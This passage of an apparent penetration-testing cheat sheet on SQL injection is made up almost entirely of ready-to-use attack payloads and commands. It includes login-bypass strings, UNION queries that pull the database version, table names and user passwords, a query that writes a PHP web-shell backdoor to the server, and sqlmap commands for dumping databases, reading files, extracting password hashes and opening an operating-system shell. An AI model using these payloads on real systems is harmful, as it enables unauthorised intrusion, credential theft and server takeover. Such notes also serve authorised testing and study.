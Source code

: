     -   Authentication Bypass  
        name='wronguser' or 1=1;\#  
        name='wronguser' or 1=1 LIMIT 1;\#

    -   Enumerating the Database  
        [http://$ip/comment.php?id=738](http://192.168.11.35/comment.php?id=738)’  
        Verbose error message?  
        http://$ip/comment.php?id=738 order by 1  
        http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  
        Determine MySQL Version:  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,@@version,6  
        current user being used for the database connection  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,user(),6  
        we can enumerate database tables and column structures  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,table\_name,6 FROM information\_schema.tables  
        target the users table in the database  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,column\_name,6 FROM information\_schema.columns where
        table\_name='users'  
        extract the name and password  
        http://$ip/comment.php?id=738 union select
        1,2,3,4,concat(name,0x3a, password),6 FROM users  
        Create a backdoor  
        http://$ip/comment.php?id=738 union all select 1,2,3,4,"&lt;?php
        echo shell\_exec($\_GET\['cmd'\]);?&gt;",6 into OUTFILE
        'c:/xampp/htdocs/backdoor.php'

    -   SQLMap Examples

> **Crawl the links**  
> sqlmap -u http://$ip --crawl=1  
> sqlmap -u http://meh.com --forms --batch --crawl=10
> --cookie=jsessionid=54321 --level=5 --risk=3  
> **SQLMap Search for databases against a suspected GET SQL Injection
> point ‘search’**  
> sqlmap –u http://$ip/blog/index.php?search –dbs
>
> **SQLMap dump tables from database oscommerce at GET SQL injection
> point ‘search’**  
> sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables
> –dumps  
> **SQLMap GET Parameter command**  
> sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump
> -threads=5  
> **SQLMap Post Username parameter**  
> sqlmap -u http://$ip/login.php --method=POST
> --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3
> --level=5 --dbms=MySQL --dump-all  
> **SQL Map OS Shell**  
> sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  
> sqlmap -u http://$ip/login.php --method=POST
> --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3
> --level=5 --dbms=MySQL --os-shell  
> **Automated sqlmap scan**  
> sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  
> --level=3 --current-user --current-db --passwords  
> --file-read="/var/www/blah.php"  
> **Targeted sqlmap scan**  
> sqlmap -u "http://meh.com/meh.php?id=1"  
> --dbms=mysql --tech=U --random-agent --dump  
> **Scan url for union + error based injection with mysql backend  
> and use a random user agent + database dump  
